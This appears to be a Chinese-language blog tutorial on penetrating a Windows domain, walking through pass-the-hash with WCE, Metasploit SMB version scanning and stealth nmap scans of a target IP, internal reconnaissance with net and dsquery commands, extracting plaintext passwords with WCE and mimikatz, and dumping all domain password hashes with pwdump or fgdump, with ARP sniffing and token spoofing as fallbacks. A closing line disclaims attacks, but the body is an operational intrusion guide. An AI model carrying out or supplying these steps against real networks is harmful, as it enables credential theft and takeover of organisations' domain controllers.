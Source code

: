 


只要有密码 的 hash 值 就能入侵操作系统 而不需要明文密码.


用 wce 工具 在操作系统 提取管理员密码的 hash 值. 

在目标服务器上进入目录wce -l获取管理密码哈希值



Kali 对 网络进行扫描.
发现 开发的端口.




启动 MSF  发现系统版本和补丁信息.

msfconsole
search smb_version
use auxiliary/scanner/smb/smb_version
show options
set RHOST 192.168.3.99
run


对目标进行一次隐秘的端口扫描
db_nmap -sS -Pn 192.168.3.99






内网信息获取
信息的获取直接通过Windows自带的命令即可实现，简单写出来：
ipconfig /all
netstat –an
net start
net user
net user /domain
net group “domain admins”        #查看域管理员
net localgroup administrators
net view /domain
dsquery server         #查看域控服务器
dsquery subnet        #查看域IP范围
上述命令执行完，内网的信息基本上就获取的差不多了。个别命令根据个人爱好请自行增加减。



向域控出发
假设执行dsquery server的结果我们发现域控服务器为DC-2008和DC-2003两台，而我们执行命令的主机也是在域下的，那么我们可以直接WCE -w了，运气好的话明文密码直接出现在你眼前，另一个外国人写的神器叫mimikatz也能够获取明文密码，图我就不截了，大家自己动手吧！

如果运气好，那么恭喜，此时你已经域控管理员密码在手，域中随意可行走。使用域控管理员密码登录域控服务器，使用pwdump、fgdump等各种密码dump工具对整个域控的密码散列进行获取即可。

如果运气差，使用wce没有得到域管理员的密码，那么你可以尝试如下方式：


Incognito
Smb
Wce –s欺骗
Sniffer + ARP
其他（玉在哪里？）


Sniffer动静很大，不到最后建议还是不要尝试了。



结束语
此文仅以技术交流为目的，拒绝任何形式的攻击行为。
想了半天我决定还是在结束语前面加上上面这句话，渗透是个技术活，也是个艺术活，各种奇技妙巧尽在其中，同时环境也复杂多变，但万变不离其宗，以静制动，后发制人。
文章有点虎头蛇尾了，但总算是兑现诺言了。

下一个坑
又给自己挖一个坑，想写点关于SCADA的，但是这东西太… 如果有更好的我会换掉。
